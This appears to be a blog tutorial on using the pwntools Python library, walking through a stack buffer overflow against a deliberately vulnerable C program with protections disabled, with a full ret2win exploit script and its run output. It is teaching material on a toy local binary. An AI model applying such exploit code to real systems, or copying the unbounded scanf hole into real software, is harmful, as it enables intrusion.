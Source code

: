 ```yaml
---
layout: post
title: "Use pwntools for your exploits"
date: 2021-05-11
description: ""
category: 
tags: []
---
```

* TOC
{:toc}

Pwntools is a Python library and has all tools you need to improve your skills of exploit development.

## The target

The following C code is a simple code with buffer overflow in the 64bit Intel platform. The compilation command disables stack canary and PIE(Position Independent Executable).

```C
// gcc -fno-stack-protector -no-pie -o vuln vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <limits.h>

void never_invoke(){
	puts("I will be never invoked :(");
}

int vuln_func()
{
	char buffer[30];
	int m = 3;
	scanf("%s", buffer); // vulnerable scanf
	return 0;
}

int main(int argc, char* argv[])
{
	vuln_func();
	return 0;
}
```

This is a `Makefile` used to compile `vuln.c`.

```
SRC:=vuln.c
BIN:=$(subst .c,, $(SRC))

.PHONY: all

all: $(BIN)
	@echo "You can use ./poc.py to test vuln"

$(BIN): $(SRC)
	gcc -g -fno-stack-protector -no-pie -o $(BIN) $(SRC)

clean:
	rm -rf $(BIN)
	rm -rf core*
```

## The exploit

First, import pwn tools;

```python
from pwn import *
```

Then we define a context for the target with the API `ELF()` and `process` to interact with the target process:

```
binary_path = "./vuln"
elf = ELF(binary_path)
p = process(elf.path)
```

Now let's find out the ret address and modify it with the starting address of `never_invoke`.

Next, we send a very large input with a specific pattern to the target process and expect one crash. This will generate a core dump that pwntools can analyze to retrieve the offset with the subpattern on the stack region when the crash occurred:

```python
def find_rip_offset(io):
    io.clean()
    io.sendline(cyclic(0x50))
    io.wait()
    core = io.corefile
    stack = core.rsp
    info("rsp = %#x", stack)
    pattern = core.read(stack, 4)
    info("cyclic pattern = %s", pattern.decode())
    rip_offset = cyclic_find(pattern)
    info("rip offset is = %d", rip_offset)
    return rip_offset

offset = find_rip_offset(p)
```

Next, we craft the following payload and send it to the target process:

```
padding to the saved IP and never_invoke address
```

The binary file is not stripped, pwntools will fetch ELF symbols and craft the payload more easily:

```python
padding = b"A" * offset
info("never_invoke %#x", elf.symbols.never_invoke)
retaddr = p64(elf.symbols.never_invoke)
payload = b"".join([padding, retaddr])
```

Finally, we can send the payload and retrive the response:

```python
def print_lines(io):
    info("printing io received lines")
    while True:
        try:
            line = io.recvline()
            success(line.decode())
        except EOFError:
            break

p = process(elf.path)
p.sendline(payload)
print_lines(p)
```

```sh
$ ./poc.py
[*] '/home/mudongliang/test_pwn/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/mudongliang/test_pwn/vuln': pid 1971333
[*] Process '/home/mudongliang/test_pwn/vuln' stopped with exit code -11 (SIGSEGV) (pid 1971333)
[+] Parsing corefile...: Done
[*] '/home/mudongliang/test_pwn/core.1971333'
    Arch:      amd64-64-little
    RIP:       0x40119e
    RSP:       0x7ffc45ee4e38
    Exe:       '/home/mudongliang/test_pwn/vuln' (0x400000)
    Fault:     0x616161706161616f
[*] rsp = 0x7ffc45ee4e38
[*] cyclic pattern = oaaa
[*] rip offset is = 56
[*] never_invoke 0x401156
[+] Starting local process '/home/mudongliang/test_pwn/vuln': pid 1971338
[*] printing io received lines
[+] I will be never invoked :(
```

## References

[1] [Use pwntools for your exploits](https://dev.to/hextrace/use-pwntools-for-your-exploits-40m3)  
[2] [Pwntools Document](http://docs.pwntools.com/en/latest/)  
